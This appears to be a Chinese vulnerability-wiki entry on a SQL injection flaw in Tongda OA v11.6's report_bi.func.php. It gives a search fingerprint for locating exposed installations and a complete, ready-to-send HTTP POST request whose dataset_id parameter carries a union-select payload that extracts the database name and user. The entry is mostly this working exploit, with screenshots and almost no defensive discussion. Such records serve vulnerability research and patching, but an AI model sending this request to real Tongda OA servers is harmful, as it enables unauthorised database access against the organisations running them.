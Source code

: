 # 通达OA v11.6 report_bi.func.php SQL注入漏洞

## 漏洞描述

通达OA v11.6 report_bi.func.php 存在SQL注入漏洞，攻击者通过漏洞可以获取数据库信息

## 漏洞影响

<a-checkbox checked>通达OA v11.6 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TDXK-通达OA" </a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1628302327738-ad1786e4-4b1d-42a2-b292-ff14cbb94476.png)

发送请求包执行SQL语句

```php
POST /general/bi_design/appcenter/report_bi.func.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 113
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

_POST[dataset_id]=efgh%27-%40%60%27%60%29union+select+database%28%29%2C2%2Cuser%28%29%23%27&action=get_link_info&
```

![img](/assets/PeiQi-Wiki/img/1628302377105-4b5b0721-a8ab-4df9-987c-744fb145f178.png)